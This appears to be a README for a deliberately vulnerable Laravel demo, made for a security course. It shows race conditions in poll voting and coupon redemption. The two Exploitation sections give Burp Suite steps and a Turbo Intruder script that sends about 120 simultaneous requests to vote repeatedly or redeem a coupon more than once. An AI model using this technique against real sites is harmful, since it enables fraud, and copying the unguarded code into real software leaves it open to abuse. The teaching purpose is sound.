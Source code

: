 ## Race conditions in Laravel (demo)

Laravel is a very popular framework for building web applications in php. This is the reason we have chosen it for vulnerability demo purposes.

This repository contains demonstration of poor programming against race conditions. It contains several examples:

- Polls
- Coupons

In each part sleep is used to allow for easier exploit of race condition.

## Setup

1. Clone repository
2. Run `composer install`
3. Replace `.env` with `.env.example`
4. Create and connect to database
5. Run `php artisan migrate --seed` gwith default seeder
6. Run `php artisan serve` to start application. For testing race conditions local webserver should be used.
7. Log@in as `admin@admin.sk` and `adminadmin`

## Polls

First part is a simple polls app represented by Polls tab. In each poll user can vote only single time. Results of the poll can then be displayed in the Answers tab.

`/polls/2` (POST method) with body `answer: '5'`allows for voting in poll with id 2 and answer id 5

`/polls/revoke` allows for revoking all votes for currently logged in user

`/answers/` shows answer numbers for each poll

### Exploitation

1. Open up burp suite or similiar tool
2. Open inbuilt browser, login and navigate to polls
3. Start intercept mode and submit a vote
4. Copy request contents over to repeater
5. Boot up turbo intruder
6. Following script is used, where inside post the request to be repeated should be placed. Do not forget to put `\r\n\r\n` at the end of request (otherwise malformed HTTP request exception is raised)
```python
   def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                               concurrentConnections=120,
                               requestsPerConnection=120,
                               pipeline=False)
        post = '''
            \r\n\r\n
            '''


        for i in range(1, 120):
            engine.queue(post, gate='race')

        engine.openGate('race');
        engine.complete(timeout=15)


        def handleResponse(req, interesting):
            if interesting:
                table.add(req)
```
7. Start attack and observe results. In case only one vote is added, make sure laravel is not run with `php artisan serve` but use local webserver like apache
8. Repeat the same for `v2` version for the remaining poll

## Coupons

Second part is a simple coupon redeeming app and can be found in Coupons tab. Simply choose a valid coupon and submit it in the Cart tab to redeem its value.

`/coupons/` lists all currently available coupons.

`/coupons/cart` lists current cart products with discount. Form for redeeming code is also supplied.

`/coupons/` (POST method) with body `code: 'AEZAKMI'` tries to redeem code AEZAKMI for current cart.

### Exploitation

1. Open up burp suite or similiar tool
2. Open inbuilt browser, login and navigate to coupons, choose suitable code
3. Navigate to cart, start intercept mode and apply chosen code
4. Copy request contents over to repeater
5. Boot up turbo intruder
6. Following script is used, where inside post the request to be repeated should be placed. Do not forget to put `\r\n\r\n` at the end of request (otherwise malformed HTTP request exception is raised)
```python
   def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                               concurrentConnections=120,
                               requestsPerConnection=120,
                               pipeline=False)
        post = '''
            \r\n\r\n
            '''


        for i in range(1, 120):
            engine.queue(post, gate='race')

        engine.openGate('race');
        engine.complete(timeout=15)


        def handleResponse(req, interesting):
            if interesting:
                table.add(req)
```
7. Start attack and observe results. In case coupon is only redeemed once, make sure laravel is not run with `php artisan serve` but use local webserver like apache
8. Repeat the same for `v2` version for the remaining coupon

## TODO

- [x] Polls
- [x] Coupons
- [x] Polls exploit
- [x] Coupons exploit
- [x] Polls v2 (fixed)
- [x] Coupons v2 (fixed)

## Licensing

Repository was created during semestral work in subject Information Technologies Security.
